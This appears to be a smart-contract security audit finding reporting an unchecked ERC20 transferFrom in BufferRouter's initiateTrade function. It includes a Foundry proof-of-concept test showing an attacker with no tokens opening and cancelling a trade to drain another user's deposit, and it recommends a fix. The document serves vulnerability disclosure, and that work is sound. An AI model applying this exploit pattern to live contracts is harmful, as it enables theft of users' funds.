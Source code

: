 adriro

high

# ERC20 `transferFrom` isn't validated in function `initiateTrade` of `BufferRouter` contract

## Summary

The `initiateTrade` function present in the `BufferRouter` contract uses `ERC.transferFrom(...)` to transfer funds from the user to the contract, but fails to verify the result of the call, which may lead an attacker to steal funds in case of non-standard ERC20 implementations.

## Vulnerability Detail

When a new trade is initiated in the `BufferRouter` contract, the `initiateTrade` will pull funds from the caller using ERC20 `transferFrom`. This happens in line 86:

https://github.com/sherlock-audit/2022-11-buffer/blob/main/contracts/contracts/core/BufferRouter.sol#L86

```solidity
IERC20(optionsContract.tokenX()).transferFrom(
    msg.sender,
    address(this),
    totalFee
);
```

In case of a non-standard ERC20 that signals success using the boolean return value, the current implementation will fail to correctly validate the operation, and let the function continue its execution assuming the tokens were correctly transferred. 

## Impact

In case the token follows a non-standard ERC20 implementation, this issue may allow an attacker to create a trade without actually transferring any tokens.

Since the return value of the call to `transferFrom` isn't checked, it is assumed that tokens were correctly transferred and the call to `initiateTrade` will succeed and create the position.

The attacker can then proceed to cancel the queued trade, which will cancel the trade and initiate the refund process. Here the router will transfer funds from its balance back to the attacker. This way the attacker can effectively steal tokens from the contract.

Note that this would require of another user making a trade with a "real" transfer of funds, so that tokens are available at the router. However, this isn't difficult to pull, since the attacker can monitor the contract for deposits from other users and immediately initiate a trade for the same amount and cancel it (this can even be done in a single transaction using an attacker contract).

## Code Snippet

In the following test Bob doesn't have any tokens, but he is able to create a trade. After Alice has created her position and transferred her tokens to the router contract, Bob is able to cancel the trade and steal the tokens.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "../src/core/BufferRouter.sol";
import "../src/core/BufferBinaryOptions.sol";
import "../src/core/BufferBinaryPool.sol";
import "../src/core/OptionsConfig.sol";
import "../src/core/ReferralStorage.sol";
import "../src/interfaces/Interfaces.sol";
import "../src/tokens/USDC.sol";
import "../src/tokens/BadERC20.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract AuditPoolTest is Test {
    bytes32 constant ROUTER_ROLE = keccak256("ROUTER_ROLE");
    bytes32 constant OPTION_ISSUER_ROLE = keccak256("OPTION_ISSUER_ROLE");

    event OpenTrade(address indexed account, uint256 queueId, uint256 optionId);

    address owner;
    uint256 publisherPrivateKey;
    address publisher;
    address feeRecipient;
    address keeper;
    address alice;
    address bob;

    function setUp() public {
        owner = makeAddr("owner");
        publisherPrivateKey = 0x1234;
        publisher = vm.addr(publisherPrivateKey);
        feeRecipient = makeAddr("feeRecipient");
        keeper = makeAddr("keeper");
        alice = makeAddr("alice");
        bob = makeAddr("bob");
    }

    function test_BuffeRouter_initiateTrade_FailedTransfer() public {
        // Setup
        vm.startPrank(owner);

        BadERC20 token = new BadERC20();
        BufferBinaryPool pool = new BufferBinaryPool(token);
        OptionsConfig config = new OptionsConfig(pool);
        ReferralStorage referral = new ReferralStorage();
        BufferBinaryOptions binary = new BufferBinaryOptions(
            token,
            pool,
            config,
            referral,
            IBufferBinaryOptions.AssetCategory.Crypto,
            "ETH/BAD"
        );
        BufferRouter router = new BufferRouter(publisher);

        router.setContractRegistry(address(binary), true);
        router.setKeeper(keeper, true);

        vm.stopPrank();

        uint256 amount = 1e6;

        // Alice has 1e6 tokens, bob none
        vm.prank(owner);
        token.transfer(alice, amount);

        // Alice makes a trade with a real deposit
        vm.prank(alice);
        token.approve(address(router), type(uint256).max);
        vm.prank(alice);
        router.initiateTrade(
            amount, // uint256 totalFee,
            1 hours, // uint256 period,
            true, // bool isAbove,
            address(binary), // address targetContract,
            1, // uint256 expectedStrike,
            5e2,// uint256 slippage,
            true, // bool allowPartialFill,
            "", // string memory referralCode,
            0 // uint256 traderNFTId
        );

        // Tokens are in router
        assertEq(token.balanceOf(alice), 0);
        assertEq(token.balanceOf(address(router)), amount);

        // Bob makes a fake deposit, he doesn't have any tokens. This still succeeds because the return condition of the ERC20 transfer isn't checked
        vm.prank(bob);
        uint256 queueId = router.initiateTrade(
            amount, // uint256 totalFee,
            1 hours, // uint256 period,
            true, // bool isAbove,
            address(binary), // address targetContract,
            1, // uint256 expectedStrike,
            5e2,// uint256 slippage,
            true, // bool allowPartialFill,
            "", // string memory referralCode,
            0 // uint256 traderNFTId
        );

        // Now bob cancels his trade before its processed, this will return the tokens (from alice) that were already stored in the router
        vm.prank(bob);
        router.cancelQueuedTrade(queueId);

        // Bob stole the tokens
        assertEq(token.balanceOf(alice), 0);
        assertEq(token.balanceOf(bob), amount);
        assertEq(token.balanceOf(address(router)), 0);
    }
}
```

## Tool used

None

## Recommendation

Verify the result of the call is true, as it is correclty done in other parts of the code (BufferBinaryPool for example).

```solidity
bool success = IERC20(optionsContract.tokenX()).transferFrom(
    msg.sender,
    address(this),
    totalFee
);
require(success);
```